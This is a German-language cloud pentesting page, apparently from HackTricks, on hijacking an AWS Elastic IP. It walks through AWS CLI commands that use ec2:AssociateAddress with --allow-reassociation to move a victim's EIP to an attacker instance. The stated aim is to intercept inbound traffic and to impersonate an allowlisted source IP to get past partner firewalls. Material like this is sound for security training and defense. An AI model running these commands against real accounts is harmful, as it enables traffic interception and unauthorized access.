 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Zusammenfassung

Missbrauche `ec2:AssociateAddress` (und optional `ec2:DisassociateAddress`), um eine Elastic IP (EIP) von einer victim instance/ENI zu einer attacker instance/ENI neu zuzuordnen. Dies leitet eingehenden Traffic, der an die EIP gerichtet ist, zum attacker um und erlaubt dem attacker außerdem, ausgehenden Traffic mit der allowlisted public IP zu erzeugen, um externe Partner-Firewalls zu umgehen.

## Voraussetzungen
- Target EIP allocation ID im selben Account/VPC.
- Attacker instance/ENI, die Sie kontrollieren.
- Berechtigungen:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` auf der EIP allocation-id und auf der attacker instance/ENI
- `ec2:DisassociateAddress` (optional). Hinweis: `--allow-reassociation` hebt die vorherige Zuordnung automatisch auf.

## Angriff

Variablen
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) EIP des Opfers zuweisen oder identifizieren (Lab weist eine neue zu und hängt sie an das Opfer an)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Prüfen, ob die EIP aktuell auf den Zielservice zeigt (z. B. durch Überprüfung des Banners)
```bash
curl -sS http://$EIP | grep -i victim
```
3) EIP dem Angreifer wieder zuordnen (wird automatisch vom Opfer getrennt)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Verifiziere, dass die EIP jetzt auf den attacker service aufgelöst wird
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Beweise (verschobene Zuordnung):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Auswirkungen
- Inbound impersonation: Der gesamte Verkehr an die hijacked EIP wird an die attacker instance/ENI zugestellt.
- Outbound impersonation: Attacker kann Traffic initiieren, der scheinbar von der allowlisted public IP stammt (nützlich, um Partner-/externe Source-IP-Filter zu umgehen).

{{#include ../../../../banners/hacktricks-training.md}}

